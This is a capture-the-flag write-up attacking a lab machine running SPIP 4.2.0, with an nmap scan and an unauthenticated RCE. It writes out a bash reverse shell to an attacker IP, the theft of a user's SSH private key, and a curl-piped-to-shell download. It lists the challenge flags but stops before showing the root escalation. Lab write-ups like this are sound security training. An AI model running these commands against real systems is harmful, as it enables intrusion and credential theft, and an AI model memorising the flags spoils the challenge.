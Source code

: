 # Publisher

### Publisher
(Flags can be found at the end of this writeup)<br />
Initial scan: 

    nmap -n -Pn -v --min-rate=1000 -p- 10.10.99.134                        
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-28 15:29 EDT
    Initiating Connect Scan at 15:29
    Scanning 10.10.99.134 [65535 ports]
    Discovered open port 80/tcp on 10.10.99.134
    Discovered open port 22/tcp on 10.10.99.134
    Completed Connect Scan at 15:30, 35.15s elapsed (65535 total ports)
    Nmap scan report for 10.10.99.134
    Host is up (0.066s latency).
    Not shown: 65533 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
The website seems to be a magazine about SPIP, which is a content management system:<br />
![image](https://github.com/user-attachments/assets/3585d3d3-4012-498c-8ef6-d19183aa252c)<br />
Directory enumeration gives some results:<br />
![image](https://github.com/user-attachments/assets/968f056c-f9f0-40df-a0da-9edf2a8d864a)<br />
Moving to /spip, wappalyzer shows us that the server is running SPIP 4.2.0.<br />
![image](https://github.com/user-attachments/assets/53ff1363-7149-4f70-89e5-970d7776838e)<br />
Searching online I found that this version is vulnerable to unauthenticated RCE. The code for the exploit can be found in `exploit.py` of this folder. To run it, first base64 encode the following string `sh -i >& /dev/tcp/10.11.85.53/4444 0>&1`. The payload should look something like `echo base64string | base64 -d | bash`.<br />
So set up a netcat listener and run the following:<br />
![image](https://github.com/user-attachments/assets/9ba6e70e-2f29-4664-96fc-4f65c4523afe)<br />
The `think` user has a .ssh folder from which we can copy the private key. <br />
![image](https://github.com/user-attachments/assets/8d7a5cdc-ee53-45b0-b6ca-4af8eb096c7a)<br />
So, create an `id_rsa` file containing the private key, change it's permissions so that it can be used to access the machine with `chmod 600 id_rsa`. Finally log in with `ssh -i id_rsa think@target_IP`.<br />
![image](https://github.com/user-attachments/assets/efa2fd4e-2e40-4a34-b2b2-b0a2b20ef370)<br />
Very good, now let's see if we can get root aswell. 
The target machine doesn't have Internet access. However I transfered linpeas from my machine to the target using curl. On the attackbox where linpeas is located, run `python3 -m http.server 80`, on the target run `curl http://machine_IP/linpeas.sh | sh`. <br />
![image](https://github.com/user-attachments/assets/79156063-6f23-4360-9e96-81a5d88801a5)<br />
The very first thing I see is that app armor is being used to harden the system. This is why I had some troubles running the reverse shell before. This user is not able to write files anywhere or access specific folders that are usually accessible without app armor. <br />
The `think` user has /usr/sbin/ash as shell, which we can see is restricted by apparmor. For example when I tried to tranfer linpeas inside /tmp, it didn't work and this is why. <br />
The configuration of apparmor for the "ash" shell is the following:<br />
![image](https://github.com/user-attachments/assets/a1200f6d-a823-403c-86e1-22e304809591)<br />
![image](https://github.com/user-attachments/assets/b34e1773-e569-4055-9ec3-10a4fd8c3f0b)<br />
![image](https://github.com/user-attachments/assets/2502575c-3574-4180-853f-5bcc57a7c352)<br />



- What is the user flag? `fa229046d44eda6a3598c73ad96f4ca5 `
- What is the root flag? `3a4225cc9e85709adda6ef55d6a4f2ca`

